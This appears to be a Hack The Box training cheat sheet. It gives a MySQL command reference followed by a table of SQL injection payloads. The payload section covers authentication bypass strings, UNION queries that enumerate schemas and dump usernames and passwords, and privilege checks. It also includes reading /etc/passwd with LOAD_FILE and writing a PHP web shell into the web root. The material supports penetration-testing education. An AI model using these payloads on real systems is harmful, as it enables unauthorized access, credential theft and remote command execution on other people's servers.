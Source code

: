 ## MySQL



| **Command**   | **Description**   |

| --------------|-------------------|

| **General** |

| `mysql -u root -h docker.hackthebox.eu -P 3306 -p` | login to mysql database |

| `SHOW DATABASES` | List available databases |

| `USE users` | Switch to database |

| **Tables** |

| `CREATE TABLE logins (id INT, ...)` | Add a new table |

| `SHOW TABLES` | List available tables in current database |

| `DESCRIBE logins` | Show table properties and columns |

| `INSERT INTO table_name VALUES (value_1,..)` | Add values to table |

| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |

| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values |

| **Columns** |

| `SELECT * FROM table_name` | Show all columns in a table |

| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |

| `DROP TABLE logins` | Delete a table |

| `ALTER TABLE logins ADD newColumn INT` | Add new column |

| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column |

| `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |

| `ALTER TABLE logins DROP oldColumn` | Delete column |

| **Output** |

| `SELECT * FROM logins ORDER BY column_1` | Sort by column |

| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |

| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two-columns |

| `SELECT * FROM logins LIMIT 2` | Only show first two results |

| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 |

| `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |

| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |



## MySQL Operator Precedence

* Division (`/`), Multiplication (`*`), and Modulus (`%`)

* Addition (`+`) and Subtraction (`-`)

* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)

* NOT (`!`)

* AND (`&&`)

* OR (`||`)



## SQL Injection

| **Payload**   | **Description**   |

| --------------|-------------------|

| **Auth Bypass** |

| `admin' or '1'='1` | Basic Auth Bypass |

| `admin')-- -` | Basic Auth Bypass With comments |

| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |

| **Union Injection** |

| `' order by 1-- -` | Detect number of columns using `order by` |

| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection |

| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection |

| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns |

| **DB Enumeration** |

| `SELECT @@version` | Fingerprint MySQL with query output |

| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |

| `cn' UNION select 1,database(),2,3-- -` | Current database name |

| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |

| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |

| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |

| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |

| **Privileges** |

| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |

| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |

| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -` | Find if all user privileges |

| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |

| **File Injection** |

| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |

| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |

| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |
